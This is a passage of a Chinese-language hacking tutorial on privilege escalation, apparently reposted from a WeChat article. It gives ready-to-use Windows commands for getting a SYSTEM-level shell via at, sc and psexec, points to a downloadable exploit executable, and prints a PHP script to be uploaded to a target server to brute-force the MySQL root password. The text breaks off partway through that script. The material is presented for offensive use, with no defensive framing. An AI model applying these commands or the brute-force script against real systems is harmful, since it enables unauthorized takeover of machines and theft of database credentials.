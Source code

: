 **本地提权**
--------

获取本地普通用户的权限后，要将权限提升为更高权限，本地提权的成功概率比 web 提权更高。  
**案例演示**  
**1. 系统溢出漏洞提权**  
直接网上下载 BitsArbitraryFileMoveExploit.exe, 运行就可以提升为系统权限![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6xBsTPv77hVBVDWs0ZhbOx0LgkQr5dPPeuCfto8o04yulAI5Cu4SKp0WIXIXqhjFTJbGmboB84nA/640?wx_fmt=png)  
**2.AT 命令提权:**  
at 13:36 /interactive cmd.exe (在 13：36 分生成一个交互式的 System 权限的 cmd)  
使用版本：Win2000 & Win2003 & XP  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6xBsTPv77hVBVDWs0ZhbOxqVbA3FhTm6SY2IyVFy9BE4wnvoTKX3kbpZ4XicjJf2T2EL5nLAoiaiccQ/640?wx_fmt=png)  

**3.SC 命令提权：**

sc Create syscmd binPath= “cmd /K start” type= own type= interact #创建一个名叫 syscmd 的新的交互式的 cmd 服务

sc start syscmd #得到了 system 权限的 cmd 环境

适用版本：windows 7、8、03、08

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6xBsTPv77hVBVDWs0ZhbOxtz0eFCOzGCNLMyzGpfMdYPA69ofmJUKSVIUTYDXlqyR7Iuic3icBg3sQ/640?wx_fmt=png)  
**4.PS 命令提权**  
微软工具包：https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools  
psexec.exe -accepteula -s -i -d cmd.exe  
适用版本：Win2003 & Win2008  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6xBsTPv77hVBVDWs0ZhbOxEa7UB2hZUrhh3vpbyicOjtxsYbUc4xX2y8x2Uec8ibEa6iaib0xubeYXGw/640?wx_fmt=png)

**数据库提权**
---------

**Mysql 数据库提权**  
利用 UDF 提权  
在利用 UDF 提权时前提是我们需要知道数据库的密码，而在正常情况下 MySQL 数据库不支持外连，此时如果我们用工具爆破不了，可以上传脚本进行爆破，脚本如下：

```
<html>
 <head>
  <title>Mysql账号密码爆破工具</title>
  <m eta http-equiv="Content-Type" content="text/html; charset=utf-8">
 </head>
 <body>
  <center>
   <br><br>
   <h1>MysqlDatab aseBlasting(Mysql账号密码在线爆破工具 V1.0)</h1>
  <br>
<?php
 if(@$_POST['submit']){
   $host = @$_POST['host'];
   if($host!=""){
    $username = "root";//用户名字典
    $password = array('','123456','admin','root123','ccf304vn'); //密码字典
    echo "<hr><br>--------------------爆破状态--------------------<br>";
    echo "密码错误次数：";
    for ($i=0; $i <= count($password); $i++) {
     if(@mysql_connect($host, $username, $password[$i])){
       echo "<br><br><font color='red'>爆破成功--密码-->".@$password[$i]."</font>";
       break;
     }else{
       echo $i."、";
       continue;
     }
    }
    echo "<br>--------------------爆破结束--------------------<br><hr>";
   }else{
    echo "<s cript>a lert('黑客，输入数据库IP地址')</s cript>";
```